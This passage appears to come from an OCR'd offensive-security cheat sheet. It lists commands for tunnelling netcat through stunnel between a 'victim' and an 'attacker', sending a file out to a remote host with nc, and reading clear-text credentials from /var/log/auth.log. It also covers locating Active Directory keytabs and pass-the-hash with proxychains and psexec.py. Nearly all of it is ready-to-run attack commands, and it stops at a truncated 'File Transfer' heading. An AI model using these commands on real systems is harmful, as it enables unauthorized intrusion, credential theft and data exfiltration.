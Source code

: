 On Victim (Listening Server):



`# Modify /stunnel.conf client = no [netcat server] accept = 4444 connect = 7777`



`# Run on victim C:\ nc -vlp 7777  # On Attacker (Client) # nc -nv 127.0.0.1 5555`



### Send Mail

Use swaks to send mail:



`swaks --to receiver@mail.dev --from from@mail.dev --server mail.server.dev --body "BODY"`

### Sending the Current File by NC

Send the current file via nc:



`nc 10.10.10.10 3131 < output.zip`

### Read Auth Clear-Text Credentials in Nix

Read clear-text credentials from /var/log/auth.log:

`more /var/log/auth.log`

### Check Linux Joined AD

Check if Linux is joined to Active Directory:



`# Check krb5 configuration cat /etc/krb5.conf  # Or use kinit kinit -k host/$(hostname -f)`

### Linux AD Credential Stored

Check where Linux AD credentials are stored:



`# Check keytab file location /var/lib/jenkins/adm_domain.keytab`

### PTH with Linux

Perform Pass-the-Hash with Linux:


`# Install krb5-user package apt-get install krb5-user  # Set KRB5CCNAME environment variable export KRB5CCNAME=/tmp/krb5cc_123  # Use proxychains to execute psexec.py proxychains psexec.py -k -no-pass -debug -dc -ip 10.1.1.2 adm_domain@OPS -CHILDDC`



###   File Transfer

